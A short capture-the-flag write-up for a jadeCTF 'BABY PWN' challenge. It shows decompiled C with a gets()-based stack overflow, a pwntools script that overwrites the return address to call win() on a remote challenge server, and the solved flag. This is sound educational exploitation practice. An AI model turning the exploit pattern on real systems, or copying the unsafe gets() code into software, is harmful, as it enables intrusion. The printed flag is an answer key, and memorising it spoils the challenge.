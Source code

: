 # BABY PWN
We are given a binary.  
On analyzing it with Ghidra, we find the `start_program()` function:
```c
void start_program(void)

{
  char local_208 [512];
  
  puts("Enter your name:");
  gets(local_208);
  printf("Hello %s, welcome to jadeCTF!\n",local_208);
  return;
}
```
This is a simple Buffer Overflow. There is also a `win()` function which we need to call:
```c
void win(void)

{
  char local_78 [104];
  FILE *local_10;
  
  puts("Nice job :)");
  local_10 = fopen("flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    puts("Sorry, flag doesn\'t exist.");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  fgets(local_78,100,local_10);
  printf("Here is your flag: %s\n",local_78);
  return;
}
```
We can overflow the `local_208` variable and call the `win()` function to get the flag. The solve script:
```py
from pwn import *

BINARY = "chall"

context.binary = BINARY
elf = context.binary

# p = elf.process()
p = remote("34.76.206.46", 10002)

OFFSET = 0x200 + 8

payload = cyclic(OFFSET)
payload += p64(elf.symbols["win"])

p.sendlineafter(b"Enter your name:\n", payload)
p.interactive()
```
FLAG: `jadeCTF{buff3r_0v3rfl0ws_4r3_d4ng3r0u5}`
